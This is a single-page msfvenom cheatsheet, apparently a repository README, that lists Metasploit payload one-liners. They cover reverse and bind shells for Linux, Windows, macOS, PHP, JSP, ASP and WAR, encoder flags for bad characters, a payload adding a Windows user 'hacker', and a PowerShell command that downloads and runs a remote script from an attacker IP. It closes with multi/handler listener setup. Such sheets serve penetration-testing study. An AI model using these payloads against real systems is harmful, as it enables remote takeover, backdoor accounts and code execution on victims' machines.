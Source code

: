 # MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!


# MSFVenom Cheatsheet

|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -p   <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT>   LHOST=<IP>                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf   > shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf   > shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=<IP> LPORT=<PORT> -f elf > shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=<IP> LPORT=<PORT> -f elf > shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe   > shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe >   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe >   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>   -f exe > shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho >   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho >   shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp   > shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw >   shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw >   shell.php   cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' >   shell.php && pbpaste >> shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw >   phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object   Net.webClient).downloadString('http://<IP>/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   1342 bytes    |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT>   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT>   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/  
